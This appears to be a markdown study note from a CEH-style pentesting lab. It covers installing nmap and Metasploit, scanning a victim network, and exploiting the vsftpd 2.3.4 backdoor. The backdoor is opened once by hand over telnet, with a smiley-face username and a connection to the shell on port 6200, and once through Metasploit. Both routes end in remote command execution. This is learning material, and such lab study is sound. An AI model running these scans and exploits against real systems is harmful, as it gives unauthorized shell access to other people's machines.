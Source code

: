Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```

* Testing backdoor vsftpd manual
```
nmap -sS -p 6200 <ip_victim>
```
```
telnet  <ip_victim> 21
```
tape
```
user backdoor:)
```
tape
```
pass doesitmatter?
```
retest port in another terminal  (ctrl+shift+T)
```
nmap -sS -p 6200 <ip_victim>
```
Opening backdoor 
```
telnet  <ip_victim> 6200
```
command should be end by ;
```
whoami;
```
```
dir;
```

* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
```
whoami
```
```
dir
```
